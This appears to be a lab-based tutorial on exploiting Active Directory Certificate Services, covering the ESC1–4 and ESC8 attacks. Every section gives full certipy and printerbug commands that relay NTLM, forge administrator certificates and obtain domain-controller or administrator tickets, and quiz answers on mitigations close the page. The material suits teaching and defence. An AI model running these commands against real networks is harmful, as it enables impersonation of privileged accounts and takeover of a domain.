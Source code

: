 #ADCS Exploiting

Active Directory Certificate Services is Microsoft's Public Key Infrastructure implementation for Active Directory environments. It allows organizations to issue, manage, and validate various digital certificates. These certificates can be used for user/computer logon, email/file encryption, signing, and Kerberos authentication.

ADCS misconfigurations may lead to possible attack vectors, as we'll see in this section. ADCS related attacks are also named ESC (Enterprise Security Configuration) attacks. There are many ESC attacks. This section will only illustrate some of these.

As a first step to attack AD through the Certificate Services, an attacker should first assess ADCS information, such as the CA (Certificate Authority) name, as well as the templates issued by the CA, in order to look for some vulnerable templates and CA configurations. To do so, the certipy tool may be used:

```
certipy find -u skyler.white@polaris.local -p 'Password123' -vulnerable -dc-ip 192.168.122.10 -stdout
```
This will output various information to stdout. We can see that the CA is called Polaris Root CA, and that it is vulnerable to ESC1-4 and ESC8 attacks.

The ESC8 attack is possible since the CA allows web enrollment. This means that users are allowed to request certificates by authenticating through the network. As we've explored on other attacks, we can relay NTLM authentication from a client to a server and impersonate the client against the legitimate server. In this case, let's relay NTLM messages from the DC itself to the CA (which is being hosted by MEMBER), and this way, retrieve a certificate as the DC itself. The certificate can then be used to obtain a TGT issued for the DC account. This allows the attacker to impersonate the DC through its TGT.
```
#start the relay in terminal 1
certipy relay -target 192.168.122.5 -ca 192.168.122.5 -template DomainController 
#trigger NTLM dc authentication from terminal 2
python3 printerbug.py POLARIS/skyler.white:Password123@192.168.122.10 192.168.122.2 
#now, you should have acquired a certificate through the certipy script. use it to get a TGT as the DC
certipy auth -pfx captain.pfx -dc-ip 192.168.122.10
```

ESC1-4 are related to misconfigured templates, rather than a misconfigured CA. On an ESC1 attack, an attacker takes advantage of the fact that there's a template that allows the enrollee to supply a SubjectAltName (SAN). This SAN identifies to whom this certificate is being issued to. It basically allows the attacker to say "Hey, I'm asking for this certificate, but it's actually for the administrator, not me. So go ahead and issue a certificate on the administrator's behalf, I'll take care of the rest.". Since the template allows the attacker to supply a SAN, the CA issues this certificate in the administrator's name and sends it to the attacker.

```
#retrieve the certificate
certipy req -u skyler.white@polaris.local -p 'Password123' -target 192.168.122.5 -template ESC1 -ca 'Polaris Root CA' -upn administrator@polaris.local
#now use the certificate to authenticate as the administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10 
```

When it comes to ESC2 and ESC3 templates, these are configured with the 'Any Purpose' EKU and 'Certificate Request Agent' EKUs, respectively. EKU stands for Extended Key Usage, and it determines the uses that a template has. These two EKUs allow a user to use the certificates to request other certificates in name of other users. Having these EKUs set on certificate to which low-privilege users can enroll open ways for ESC2(Any Purpose EKU) and ESC3(Certificate Request Agent EKU) attacks:

```
#request the certificate template with over permissive EKUs. can be either ESC2 or ESC3
certipy req -u skyler.white@polaris.local -p 'Password123' -target 192.168.122.5 -template ESC2 -ca 'Polaris Root CA'
#use the certificate to request another certificate on behalf of another user
certipy req -u skyler.white@polaris.local -p 'Password123' -target 192.168.122.5 -template User -ca 'Polaris Root CA' -on-behalf-of 'polaris\administrator' -pfx skyler.white.pfx
#retrieve a tgt for the administrator user
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10
```

Finally, the ESC4 attack is possible when the attacker has compromised an account that holds write permissions over a certificate template. By being able to modify a certificate template, the attacker can alter its configuration, and for example, allow the enrollee to supply a SAN (ESC1 attack):

```
#Modify the ESC4 certificate template to allow SANs in the request while saving the old certificate template
certipy template -u skyler.white@polaris.local -p 'Password123' -template ESC4 -dc-ip 192.168.122.10 -target 192.168.122.10 -save-old
#get a certificate for impersonating the administrator through the ESC1 attack, which the ESC4 template is now vulnerable to
certipy req -u skyler.white@polaris.local -p 'Password123' -target 192.168.122.5 -template ESC4 -ca 'Polaris Root CA' -upn administrator@polaris.local
#get a tgt using the template
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10 
#modify the template once again, setting it back to its old configuration
certipy template -u skyler.white@polaris.local -p 'Password123' -template ESC4 -dc-ip 192.168.122.10 -target 192.168.122.10 -configuration ESC4.json

```

!!! question
    How can an administrator prevent ESC8 attacks?
??? success "Answer"
    The admins can prevent these attacks by disabling CA web enrollment, or by mitigating relay attacks themselves, through enabling SMB signing on CA servers, which would also prevent this attack.
!!! question
    How does ESC1 lead to impersonation of any user, including Domain Admins?
??? success "Answer"
    In an ESC1 attack, the certificate template is misconfigured to allow the enrollee to specify the Subject Alternative Name (SAN). Since the SAN defines the identity the certificate represents, an attacker can simply request a certificate where the SAN is set to a privileged account, like Administrator. The CA issues the certificate without verifying ownership, giving the attacker valid credentials to impersonate that account.
!!! question
    What's the difference between ESC2 and ESC3 attacks?
??? success "Answer"
    The Extended Key Usage values are different. In ESC2, the template has an 'Any Purpose' EKU, which means the certificate can be used for anything, while ESC3 has the 'Certificate Request Agent' EKU which is more granular, but still the EKU that allows to perpetrate these attacks.

